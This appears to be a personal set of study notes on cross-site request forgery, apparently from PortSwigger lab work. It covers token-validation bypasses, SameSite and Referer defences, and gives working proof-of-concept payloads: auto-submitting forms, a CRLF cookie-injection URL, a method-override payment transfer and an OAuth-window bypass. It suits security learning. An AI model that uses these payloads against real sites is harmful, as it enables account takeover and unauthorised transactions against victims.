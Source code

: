 # CSRF
CSRF is an attack when attacker induces user to perform some actions on site that they didn't want to do.  
```
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
This html page will force user to change email  
Easiest way to construct CSRF page is to use CSRF PoC from engagement tools  
If it's possible to perform CSRF via GET request, we can use smth like this:
```
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```
## Bypassing CSRF token validation  
Switch POST to GET  
Some applications  correctly validate the token when it is present but skip the validation if the token is omitted.  
In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack
Some applications do not validate that the token belongs to the same session as the user who is making the request. Instead, the application maintains a globalpool of tokens that it has issued and accepts any token that appears in this pool.  
In this situation, the attacker can log in to the application using their own account, obtain a valid token, and then feed that token to the victim user in their CSRF attack.   
Remember that tokens could be single-use  

CSRF token could be duplicated in Cookie. In such case, we need to exploit cookie-setting mechanism and force user to use our own generated CSRF token which must be same with token in cookie.  
For example, if server duplicates our search requests in cookie like `lastSearch: test`, we can create search request which will set our own cookie and csrf token and send such request to user and then exploit CSRF  
Example:
```
/search?q=test%0d%0aSet-Cookie:csrf=fake%3b%20SameSite=None
```
%0d%0a - new line  
%3b - ;  
Then we create CSRF PoC and add 
```
<img src="https://0a4a000404f41823808649ee00a4001f.web-security-academy.net/search?test%0d%0aSet-Cookie:csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
```
## Bypassing SameSite cookie restrictions
SameSite checks URL scheme and TLD+1. That means, that it checks http/https and `.com` and one level behind that.  
Same-Origin checks the whole origin including port and all subdomain names.  
So same-site allows requests from `https://app.example.com` to `https://intranet.example.com` and from `https://example.com` to `https://example.com:8080`, while same-origin will strictly check all the things  
If site don't issue SameSite, Chrome will always set ot to `Lax` value  
### Strict
If a cookie is set with the SameSite=Strict attribute, browsers will not send it in any cross-site requests. In simple terms, this means that if the target site for the request does not match the site currently shown in the browser's address bar, it will not include the cookie.  
### Lax
Lax will send cookies in cross-site requests, but only if it `GET` requests and request was resulted from top-level navigation by user (clicking a link)  
### None
SameSite is disabled  
This behaviour is acceptable only if cookie is third-party and not used to manipulate any sensitive data.  
## Bypassing Lax restrictions with GET requests
We can simply change POST to GET and create XSS vector with top-level navigation (link):
```
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```
If we can't use simple GET requests, we can try to epxloit some framework features. In case of `Symphony`, we can use `_method` parameters in form to override request method:
```
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```
## Bypassing using on-site gadgets
If cookies are using `SameSite=Strict`, we can't use them in any cross-site requests. But we can try to bypass it using site gadgets with secondary requests.  
One possible gadget is client-side redirect which uses attacker-controllable input such as URL to construct redirection target.  
Note that the equivalent attack is not possible with server-side redirects  

SameSite cookie restrictions are omitted for 120 seconds during OAuth login, so we can exploit this:
```
<form method="POST" action="https://0a6500bc0453f13481cb5f6c002c00c9.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0a6500bc0453f13481cb5f6c002c00c9.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```
## Bypassing Referer-based CSRF defenses
Referer header is set by servers to identify page from which request is created  
First way is just simply omit Referer header.  
In this situation, an attacker can craft their CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:  
```
<meta name="referrer" content="never">
or
<meta name="referrer" content="no-referrer">
```
Another way is bypassing inadequate validating of Referer header. We can set vulnerable website as subdomain of our exploit server or as parameter in URL:
```
http://vulnerable-website.com.attacker-website.com/csrf-attack
http://attacker-website.com/csrf-attack?vulnerable-website.com
```
It's important to add `Referrer-Policy: unsafe-url` header. This ensures that the full URL will be sent, including the query string.  
We can modify JS script in CSRF PoC ike this:
```
history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")
```

